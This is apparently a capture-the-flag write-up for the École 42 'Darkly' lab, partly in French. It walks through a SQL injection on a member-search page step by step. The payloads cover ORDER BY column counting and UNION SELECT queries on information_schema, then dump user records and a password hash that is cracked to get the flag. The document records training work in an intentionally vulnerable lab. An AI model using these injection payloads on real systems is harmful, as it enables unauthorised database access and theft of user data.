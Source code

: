 # Darkly - École 42

## 12. SQL Injection - Members

- `1 OR true` : Affiche tous les users

- https://portswigger.net/web-security/sql-injection/union-attacks

### Determining the number of columns required

When you perform a SQL injection UNION attack, there are two effective methods to determine how many columns are being returned from the original query.

> One method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.

- `1 or true ORDER BY 1--` : order by firstname
- `1 or true ORDER BY 2--` : order by surname
- `1 or true ORDER BY 3--` : Unknown column '3' in 'order clause'

- `1 or true UNION all SELECT 1, 2 information_schema.tables` : xxxxxxxxx
- `1 or true UNION all SELECT 1, table_name FROM information_schema.tables` : xxxxxxxxx
- `1 or true UNION all SELECT table_name, table_name FROM information_schema.columns` : xxxxxxxxx
- `1 UNION all SELECT table_name, column_name FROM information_schema.columns` :

```
ID: 1 UNION all SELECT table_name, column_name FROM information_schema.columns
First name: users

Surname : user_id
Surname : first_name
Surname : last_name
Surname : town
Surname : country
Surname : planet
Surname : Commentaire
Surname : countersign
```

- `1 UNION SELECT (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users` : Operand should contain 1 column(s)
- `1 UNION SELECT user_id, first_name, last_name, town, country, planet, Commentaire, countersign FROM users` : The used SELECT statements have a different number of columns
- `1 UNION SELECT user_id FROM users` : The used SELECT statements have a different number of columns

- `1 UNION SELECT user_id, first_name, last_name, town, country, planet, Commentaire, countersign FROM users` : Operand should contain 1 column(s)
- `1 UNION SELECT user_id, first_name FROM users`
- `1 UNION SELECT planet, Commentaire FROM users`

```
First name: EARTH
Surname : Je pense, donc je suis

First name: Earth
Surname : Aamu on iltaa viisaampi.

First name: Earth
Surname : Dublin is a city of stories and secrets.

First name: 42
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

`1 UNION SELECT user_id, concat(last_name, first_name, town, country, planet, Commentaire, countersign) FROM users WHERE user_id=5` :

```
GetTheFlag424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

- Google `5ff9d0165b4f92b14994e5c685cdce28` > md5 = `FortyTwo`

- to lower : `fortytwo`

```
echo -n "fortytwo" | sha256sum
```
